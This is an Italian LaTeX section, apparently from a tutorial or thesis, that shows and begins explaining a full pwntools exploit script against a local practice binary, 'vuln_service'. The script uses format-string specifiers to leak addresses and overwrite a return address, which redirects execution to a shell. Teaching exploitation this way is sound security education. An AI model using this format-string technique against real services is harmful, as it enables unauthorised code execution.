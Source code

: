 \section{Fase di verifica: dalla scrittura alla shell interattiva}\label{sec:verify_phase}
Finora abbiamo visto solo estratti di script Python. Il Codice~\ref{lst:full_exploit} riunisce per la prima volta tutti i frammenti costruiti separatamente nelle Sezioni~\ref{sec:leak_phase} e~\ref{sec:write_phase}, aggiungendo la parte rimasta finora implicita: l'apertura del processo e, una volta inviati tutti i payload, l'interazione vera e propria con la shell ottenuta. È infatti questa interazione a permetterci di verificare che l'exploit abbia davvero funzionato.
\begin{lstlisting}[
    language=Python,
    gobble=4,
    caption={Script completo dell'exploit},
    label={lst:full_exploit}
]
    from pwn import *

    exe = ELF('./vuln_service')
    context.binary = exe
    io = exe.process()

    payload1 = b'%9$p'
    io.sendlineafter(b'=== MiniLog v1.0 ===\n', payload1)
    binary_addr = int(io.recvline(), 16)
    base_addr = binary_addr - 0x123f
    debug_shell_addr = base_addr + 0x11c9

    payload2 = b'%7$p'
    io.sendline(payload2)
    buf_addr = int(io.recvline(), 16)
    ret_pos_addr = buf_addr - 8

    low16 = (debug_shell_addr + 5) & 0xffff
    spec = f'%{low16}x'.encode() \
            + b'%12$hn'
    pad = (-len(spec)) % 8
    payload3 = spec + b'\x00' * pad + p64(ret_pos_addr)
    io.sendline(payload3)

    io.recvrepeat(timeout=1)
    io.interactive()
\end{lstlisting}
Le prime righe hanno il compito di impostare il contesto di \texttt{pwntools} e di preparare il binario e il canale bidirezionale per comunicare con esso. L'istruzione \texttt{ELF(\textquotesingle./vuln\_service\textquotesingle)} carica il binario. \texttt{context.binary = exe} imposta poi il contesto globale di \texttt{pwntools} (architettura e ordine dei byte), che definisce il comportamento delle sue funzioni. L'istruzione \texttt{exe.process()} avvia infine il binario e restituisce il canale di comunicazione bidirezionale \texttt{io} già usato nelle sezioni precedenti, che permette allo script di interagire con il programma.

